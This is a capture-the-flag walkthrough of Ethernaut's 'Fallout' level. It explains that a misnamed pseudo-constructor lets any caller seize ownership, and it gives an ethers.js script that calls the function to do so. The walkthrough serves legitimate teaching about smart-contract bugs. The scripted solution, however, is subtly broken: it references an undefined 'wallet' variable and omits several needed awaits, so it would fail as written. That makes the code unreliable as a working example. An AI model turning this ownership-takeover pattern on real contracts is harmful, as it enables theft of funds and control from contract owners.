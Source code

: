 ```yaml
---
description: In Ethernaut's Fallout, we learn a quick lesson about constructor syntax.
---
```


# 2 - Fallout

To complete [this level](https://ethernaut.openzeppelin.com/level/0x5732B2F88cbd19B6f01E3a96e9f0D90B917281E5) we need to claim ownership of its `Fallout` contract.

### Hints

<details>

<summary>Hint One</summary>

The only function in the contract that assigns a value to `owner` is its "constructor", `Fal1out`. Is this function really what it seems?&#x20;

</details>

### Full Walkthrough

#### Claiming Ownership

The `owner` of this contract is set in its "constructor" function `Fal1out` and not reassigned elsewhere in the contract. Note that despite being labelled the constructor in the comment above, this function is not actually the valid constructor for this contract and will not run when it is deployed. If it were a valid constructor, there would be no way for us to take ownership of the contract after it was deployed by another address.

```solidity
/* constructor */
function Fal1out() public payable {
  owner = msg.sender;
  allocations[owner] = msg.value;
}
```

In some versions of Solidity prior to 0.4.21, a constructor could be defined by naming a function the same name as its contract. This contract, however, is being compiled as version 0.6.0 or higher, and therefor this "constructor" will not run when the contract is deployed.

```solidity
pragma solidity ^0.6.0;
```

Additionally, it is worth noting that the function name does not actually match the contract's name as the function's second "l" is actually the number 1.

Any address that calls the `Fal1out` function will become the contract's owner.

{% hint style="info" %}
**Transactions and calldata**

Coming soon...
{% endhint %}

### Scripted Solution

```javascript
const ethers = require('ethers')
const fs = require('fs')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and 
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await wallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const { playerWallet, contract: falloutContract } = setup('Fallout')

  // Check Fallout contract's owner
  console.log(
    `Fallout contract owner is initially: ${await falloutContract.owner()}`
  )

  // Call Fallout contract's 'Fal1out' function
  console.log("Calling Fallout contract's 'Fal1out' function...")
  await falloutContract.Fal1out().wait(1)

  // Check Fallout contract's new owner
  const falloutContractOwner = await falloutContract.owner()
  console.log(`Contract owner is now: ${falloutContractOwner}`)
  console.log(
    `Contract owner is player: ${falloutContractOwner === playerWallet.address}`
  )
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```

### Key Takeaways

* Some older versions of Solidity allowed for **constructors** to be defined as functions with the **same name as the contract** itself.
* Even a single, simple **syntax error** can become a **security disaster**.

